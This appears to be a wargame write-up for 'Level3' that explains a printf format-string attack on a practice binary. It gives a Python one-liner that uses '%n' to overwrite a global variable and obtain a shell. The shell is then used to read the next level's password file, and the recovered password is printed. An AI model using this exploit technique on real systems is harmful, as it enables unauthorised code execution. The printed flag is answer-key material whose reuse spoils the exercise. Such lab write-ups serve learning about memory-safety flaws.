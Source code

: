 # Level3

This binary uses `fgets`, which is protected against *buffer overflow attacks*    
It does a call to `/bin/sh` but only when `obj.m = 64`    
obj.m address = 0x804988c

Thanks to `printf` we can perform a *format string attack*    
The `%n` modifier will write the number of printed characters at address pointed by its associated parameter    
We can specify which parameter to use for `%n` by including the `x$` modifier, x+1 on this modifier will reach 4 bytes further up on the stack allowing us to reach inside our buffer

```
python -c "print '\x08\x04\x98\x8c'[::-1] + 'A' * 60 + '%4\$n'" > /tmp/inj3
cat /tmp/inj3 - | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
